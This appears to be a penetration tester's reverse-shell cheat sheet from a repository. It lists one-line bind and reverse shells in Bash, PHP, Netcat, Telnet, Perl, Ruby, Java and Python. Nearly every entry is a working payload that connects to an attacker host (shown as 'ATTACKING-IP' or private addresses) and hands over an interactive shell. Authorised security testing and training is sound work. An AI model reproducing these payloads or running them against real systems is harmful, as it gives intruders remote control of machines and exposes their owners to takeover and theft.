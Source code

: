 # Reverse-shells



This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:
https://highon.coffee/blog/reverse-shell-cheat-sheet/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Msfvenom

There is more info on this topic in the metasploit chapter in /exploiting. But here goes


## Bash

```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```
exec /bin/bash 0&0 2>&0
```

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## Php
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Netcat


Bind shell
```
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555
```

Reverse shell
```
nc 192.168.1.101 5555 -e /bin/bash
nc -lvp 5555
```

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```


## Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## Python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```